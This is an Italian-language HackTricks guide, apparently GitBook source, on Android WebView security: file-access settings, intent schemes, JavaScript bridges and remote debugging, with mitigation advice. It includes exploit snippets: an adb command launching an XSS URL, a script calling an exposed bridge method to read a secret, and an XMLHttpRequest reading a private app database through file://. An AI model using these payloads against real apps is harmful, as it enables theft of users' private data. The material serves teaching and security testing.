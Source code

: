 # Webview Attacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Guida alle Configurazioni e Sicurezza di WebView

### Panoramica delle Vulnerabilità di WebView

Un aspetto critico dello sviluppo Android riguarda la corretta gestione delle WebView. Questa guida evidenzia le configurazioni chiave e le pratiche di sicurezza per mitigare i rischi associati all'uso delle WebView.

![WebView Example](<../../.gitbook/assets/image (1190).png>)

### **Accesso ai File in WebView**

Per impostazione predefinita, le WebView consentono l'accesso ai file. Questa funzionalità è controllata dal metodo `setAllowFileAccess()`, disponibile dalla versione 3 dell'API Android (Cupcake 1.5). Le applicazioni con il permesso **android.permission.READ\_EXTERNAL\_STORAGE** possono leggere file dalla memoria esterna utilizzando uno schema URL di file (`file://path/to/file`).

#### **Funzionalità Deprecate: Accesso Universale e Accesso ai File da URL**

* **Accesso Universale da URL di File**: Questa funzionalità deprecata consentiva richieste cross-origin da URL di file, ponendo un rischio significativo per la sicurezza a causa di potenziali attacchi XSS. L'impostazione predefinita è disabilitata (`false`) per le app destinate ad Android Jelly Bean e versioni successive.
* Per controllare questa impostazione, utilizzare `getAllowUniversalAccessFromFileURLs()`.
* Per modificare questa impostazione, utilizzare `setAllowUniversalAccessFromFileURLs(boolean)`.
* **Accesso ai File da URL di File**: Questa funzionalità, anch'essa deprecata, controllava l'accesso ai contenuti da altri URL di schema file. Come l'accesso universale, la sua impostazione predefinita è disabilitata per una maggiore sicurezza.
* Utilizzare `getAllowFileAccessFromFileURLs()` per controllare e `setAllowFileAccessFromFileURLs(boolean)` per impostare.

#### **Caricamento Sicuro dei File**

Per disabilitare l'accesso al file system pur accedendo a risorse e asset, si utilizza il metodo `setAllowFileAccess()`. Con Android R e versioni successive, l'impostazione predefinita è `false`.

* Controllare con `getAllowFileAccess()`.
* Abilitare o disabilitare con `setAllowFileAccess(boolean)`.

#### **WebViewAssetLoader**

La classe **WebViewAssetLoader** è l'approccio moderno per il caricamento di file locali. Utilizza URL http(s) per accedere ad asset e risorse locali, allineandosi con la politica Same-Origin, facilitando così la gestione del CORS.

### loadUrl

Questa è una funzione comune utilizzata per caricare URL arbitrari in una webview:
```java
webview.loadUrl("<url here>")
```
Ofc, un potenziale attaccante non dovrebbe mai essere in grado di **controllare l'URL** che un'applicazione sta per caricare.

### **Gestione di JavaScript e Intent Scheme**

* **JavaScript**: Disabilitato per impostazione predefinita nei WebView, può essere abilitato tramite `setJavaScriptEnabled()`. Si consiglia cautela poiché abilitare JavaScript senza le giuste protezioni può introdurre vulnerabilità di sicurezza.
* **Intent Scheme**: I WebView possono gestire lo schema `intent`, potenzialmente portando a exploit se non gestito con attenzione. Un esempio di vulnerabilità riguardava un parametro WebView esposto "support\_url" che poteva essere sfruttato per eseguire attacchi di cross-site scripting (XSS).

![WebView vulnerabile](<../../.gitbook/assets/image (1191).png>)

Esempio di sfruttamento utilizzando adb:

{% code overflow="wrap" %}
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
{% endcode %}

### Javascript Bridge

Una funzionalità è fornita da Android che consente a **JavaScript** in un WebView di invocare **funzioni native delle app Android**. Questo viene realizzato utilizzando il metodo `addJavascriptInterface`, che integra JavaScript con le funzionalità native di Android, definito come un _WebView JavaScript bridge_. Si consiglia cautela poiché questo metodo consente a tutte le pagine all'interno del WebView di accedere all'oggetto JavaScript Interface registrato, presentando un rischio per la sicurezza se informazioni sensibili vengono esposte attraverso queste interfacce.

* **È necessaria un'estrema cautela** per le app destinate a versioni di Android inferiori alla 4.2 a causa di una vulnerabilità che consente l'esecuzione di codice remoto tramite JavaScript malevolo, sfruttando la riflessione.

#### Implementing a JavaScript Bridge

* **Le interfacce JavaScript** possono interagire con il codice nativo, come mostrato negli esempi in cui un metodo di classe è esposto a JavaScript:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
* Il JavaScript Bridge è abilitato aggiungendo un'interfaccia al WebView:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
* Potenziale sfruttamento tramite JavaScript, ad esempio, tramite un attacco XSS, consente la chiamata di metodi Java esposti:
```html
<script>alert(javascriptBridge.getSecret());</script>
```
* Per mitigare i rischi, **limitare l'uso del ponte JavaScript** al codice fornito con l'APK e impedire il caricamento di JavaScript da fonti remote. Per i dispositivi più vecchi, impostare il livello API minimo a 17.

### Esecuzione Remota di Codice Basata su Riflesso (RCE)

* Un metodo documentato consente di ottenere RCE tramite riflesso eseguendo un payload specifico. Tuttavia, l'annotazione `@JavascriptInterface` impedisce l'accesso non autorizzato ai metodi, limitando la superficie di attacco.

### Debug Remoto

* **Il debug remoto** è possibile con **Chrome Developer Tools**, consentendo interazione ed esecuzione arbitraria di JavaScript all'interno del contenuto WebView.

#### Abilitare il Debug Remoto

* Il debug remoto può essere abilitato per tutti i WebView all'interno di un'applicazione tramite:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
* Per abilitare il debug in modo condizionale in base allo stato debuggable dell'applicazione:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## Esfiltrare file arbitrari

* Dimostra l'esfiltrazione di file arbitrari utilizzando un XMLHttpRequest:
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## Riferimenti

* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
* [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
* [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
